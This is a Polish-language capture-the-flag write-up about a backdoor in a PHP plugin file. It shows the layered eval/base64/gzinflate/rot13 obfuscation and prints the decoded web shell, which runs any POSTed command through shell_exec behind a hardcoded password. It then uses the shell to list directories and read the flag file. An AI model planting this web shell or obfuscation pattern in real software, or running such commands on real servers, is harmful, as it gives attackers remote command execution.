 # backdoor
![](4b1c5b392d2630c66e7cbc7e694cd8fa)

Wspomniany w opisie backdoor znajduje się w "/plugins/toast/exploit.php". Napisałem kod odwzorujący działanie `eval(htmlspecialchars_decode(gzinflate(base64_decode($Cyto))))`.

Po odszyfrowaniu Cyto uzyskałem:
```
eval(&quot;?&gt;&quot;.str_rot13(gzinflate(gzuncompress(gzinflate(gzuncompress(gzinflate(gzuncompress(gzinflate(gzuncompress(base64_decode(strrev($Lix))))))))))));
```

Po napisaniu kodu odwzorujący działanie powyższego kodu uzyskałem:
```
<?php\e\aif ($_SERVER["REQUEST_METHOD"] === "POST") {\e\a    $command = $_POST["command"];\e\a    $password = $_POST["password"];\e\a\e\a    if ($password == "S3cr3tP4ssw0rd") {\e\a        $output = shell_exec($command);\e\a        echo "<pre>$output</pre>";\e\a    } else {\e\a        echo "Wrong password!";\e\a    }\e\a}\e\a?>\e\a\e\a<form method="post">\e\a    <input type="text" name="command" placeholder="command" required>\e\a    <input type="password" name="password" placeholder="password" required>\e\a    <button type="submit">>>></button>\e\a</form>
```

Znając hasło można wykonać dowolną komendę. Wprowadzając `cd ../..;ls` wyświetla się:
```
Dockerfile
c85ebe2c-213c-4593-b6e7-f908440ee066.txt
img
index.php
plugins
```

Wygląda na to, że flaga jest w `c85ebe2c-213c-4593-b6e7-f908440ee066.txt`
Wprowadzając `cat ../../c85ebe2c-213c-4593-b6e7-f908440ee066.txt` wyświetla się flaga.

Ostateczny kod: `backdoor.py`

Flaga: `WSIZ{M45ter_0f_PHP_Obfu5c4t!on}`